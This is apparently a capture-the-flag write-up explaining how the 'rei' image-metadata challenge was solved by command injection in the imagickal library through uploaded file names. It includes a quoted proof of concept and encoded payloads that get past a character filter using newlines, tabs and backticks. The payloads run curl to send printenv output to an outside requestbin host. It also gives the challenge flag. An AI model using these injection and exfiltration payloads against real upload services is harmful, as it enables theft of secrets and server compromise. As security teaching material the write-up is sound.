


# rei [8 Points] - 0 Solves

```
SieberrHealth's chip seems to need image recognition technology to work.
One of the APIs discovered is an image metadata service.
Hack it and find out what its really doing.

(Note: Flag is found in the environment variables)
index.js: https://ghostbin.co/paste/svfn6 (note that the "safeFileNames" portion of this is slightly outdated)
Challenge hosted at http://rei.sieberrsec.tech/ 
```

Initial analysis of the site seems to suggest that it is some kind of image upload site. 

Let's take a look at the source code `index.js` which is provided:

```javascript
const express = require('express');
const fileUpload = require('express-fileupload');
const im = require('imagickal');
const fs = require('fs').promises;
const path = require('path');

const app = express();
app.use(fileUpload({
        debug: false,
        uploadTimeout: 60000,
        fileHandler: false,
        uriDecodeFileNames: true,
        safeFileNames: /[;&[\]>< |$()]/g,
        preserveExtension: false,
        limits: { fileSize: 1 * 1024 * 1024 },
        abortOnLimit: true,
        responseOnLimit: 'Please upload a file no larger than 1MiB',
        limitHandler: false,
        createParentPath: true,
        parseNested: false,
        useTempFiles: true,
        tempFileDir: path.join(process.cwd(), 'tmp')
}));

app.get('/', async (_, res) => {
        res.sendFile(path.join(__dirname, '/index.html'));
});
app.post('/upload', async (req, res) => {
        if (req.files.img.truncated) return;
        if (req.files.img == undefined || !['image/png', 'image/jpeg', 'image/gif'].includes(req.files.img.mimetype) || !['png', 'jpg', 'jpeg', 'gif'].includes(req.files.img.name.split('.')[req.files.img.name.split('.').length - 1])) {
                res.send('Please upload an image file');
                return;
        }
        req.files.img.mv(path.join(__dirname, '/uploads/', req.files.img.name));
        try {
                const imInfo = await im.identify(path.join(__dirname, '/uploads/', req.files.img.name));
                res.send(`<pre>File Format:  ${imInfo.format}\nImage Width:  ${imInfo.width}px\nImage Height: ${imInfo.height}px</pre>`);
        }
        catch (e) {
                console.error(e);
                res.send('An error occured while processing your image');
        }
        await fs.unlink(path.join(__dirname, '/uploads/', req.files.img.name));
});

app.listen(5500);
```

So when you upload a photo, a POST request is made to `/upload`:

- It checks if the **mimetype is an image** and if the **extension is an image extension** 
- It then moves the file to a /uploads/ and runs it through a `imagickal` library to obtain the format, width and height details `im.identify(path.join(__dirname, '/uploads/', req.files.img.name))`
- Finally it removes the image `await fs.unlink(path.join(__dirname, '/uploads/', req.files.img.name));`

Hmmm... nothing seems to be suspicious so far, perhaps let's check out the `imagickal` library, since we get a rather glaring hint on the site: `0 day` 


## The OSINT

Looking at the issues in the `imagckal` github repo, we immediately spot something:



and we spot something even more amazing:



It looks like there was a command injection vulnerability discovered quite a few months back, with fixes proposed, but the author *closed them without merging the changes*. So this library is still very much vulnerable! *Not so much a 0day huh* 


## The Vulnerability

Looking at the vulnerability report, we can find a `Proof of Concept (POC)` showing exactly how we can inject the commands in:

```javascript
// poc.js
var im = require('./index.js');

im.dimensions('image.jpg; touch HACKED; #').then(function (dim) {
    console.log(dim.width);
    console.log(dim.height);
});
```

Although this shows the `dimensions()` function, the `identify` function is very much vulnerable too as we will see in a comment down this Pull Request.

Looking at the code of the `identify` function:

```javascript
exports.identify = function (path, verifyImage, callback) {
	if (typeof (verifyImage) === 'function') {
		callback = verifyImage;
		verifyImage = false;
	}

	const cmd = printf(
		'identify -format "{\\"format\\":\\"%m\\",\\"width\\":%w,\\"height\\":%h}" %s%s',
		verifyImage ? '-verbose ' : '',
		path instanceof Readable ? '-' : path
	);

	debug('identify', cmd);

	const promise = new Promise((resolve, reject) => {
		const shell = exec(cmd, Object.assign({ stdio: ['pipe'] }, globalOpts.execOptions || {}), (err, stdout) => {
			if (err) {
				if (err.message.match(/decode delegate/)) {
					return reject(new Error('Invalid image file'));
				}
				return reject(err);
			}

			let data;
			try {
				data = parseOutput(stdout.toString());
				data.format = data.format.toLowerCase();
				data.format = data.format === 'jpeg' ? 'jpg' : data.format;
			} catch (e) {
				return reject(new Error('Unable to parse identify data, output was:' + stdout.toString()));
			}

			if (!data) {
				return reject(new Error('Unable to identify image, output was:' + stdout.toString()));
			}

			resolve(data);
		});

		if (path instanceof Readable) {
			path.pipe(shell.stdin);
		}
	});

	return promise.asCallback(callback);
};
```

We can summarise how the code injection happens (which is fairly basic):

- One calls the `identify` function with the path to the file E.g: `im.identify(path.join(__dirname, '/uploads/', req.files.img.name))`

- The path is **pass into the main command string** via **printf format strings**: 

  ```javascript
  const cmd = printf(
  		'identify -format "{\\"format\\":\\"%m\\",\\"width\\":%w,\\"height\\":%h}" %s%s',
  		verifyImage ? '-verbose ' : '',
  		path instanceof Readable ? '-' : path
  	);
  ```

- This command string is then **passed straight into `exec` without any filtering whatsoever**

So technically, we can simply append our own commands after the `identify -format "{\\"format\\":\\"%m\\",\\"width\\":%w,\\"height\\":%h}"` via the **filename** and do whatever we like, just like how the `Proof of Concept` did it. However, there is a catch in this challenge.


## The Catch: WAF

It seems like in this challenge, there is an additional filter for our filenames as indicated in the source code: `safeFileNames: /[;&[\]>< |$()]/g` which means we can't run multiple commands the traditional way using `;` and `&`. Oh no :sweat:. (Not to mention spaces ` ` are also blocked)

What we could do instead is to use **`newlines \n`**! The normal way of telling the terminal that you are **entering a new command** has always been to **send a `\n` to the terminal**. But how will we send a newline via a filename? 

After looking at the source code for a bit more, you will realise that another option is set: ` uriDecodeFileNames: true` which means that we can **URL-Encode any special characters in the filename and it will be decoded**! (<u>Note:</u> The filter check is done on the filename **after decoding**, so encoding any illegal characters will still get rejected)

As for **spaces**, we can replace them with **tabs**!

With that, we can craft the payload with the `curl` command to execute `printenv`, which is where the flag is located:

```
image%2Ejpg%0Acurl%09%2DX%09POST%09%2Dd%09%22q%3D%09%60printenv%60%22%09https%3A%2F%2Frequestbin%2Eio%2Fywj9e0yw%23.jpg #URL-Encoded

image.jpg <newline \n>
curl	-X	POST	-d	"q=	`printenv`"	https://requestbin.io/ywj9e0yw#.jpg #URL-Decoded
```

<u>Note:</u> In here you can use **` `` `** to **execute the command we need (`printenv`)** since **piping `|`, redirection `>` and `$()` are all blocked** 

and with that, we get the flag is our requestbin :happy:

```
IRS{W41T_175_JU5T_WH1T3H4CK5?-4LW4Y5_H45_B33N}
```


## Learning Points:

1. Always check out the libraries being used in your API, some might very well be vulnerable to simple command injection
2. You can use **`newlines \n`** to **replace** `;` and `&` in bypassing WAFs to **inject commands**.
3. Using `tabs` to replace `spaces ` when `spaces` are blocked.
4. A less common way is to use ` `` ` in order to run commands, in replacement of `$()` 

### Alternative Payload using ` `` ` directly:

```
image%09%60curl%09%2DX%09POST%09%2Dd%09%27hello%27%09https%3A%2F%2Frequestbin%2Eio%2F1jubwz61%60%23.jpg #URL-Encoded

image	`curl	-X	POST	-d	'hello'	https://requestbin.io/1jubwz61`#.jpg
```

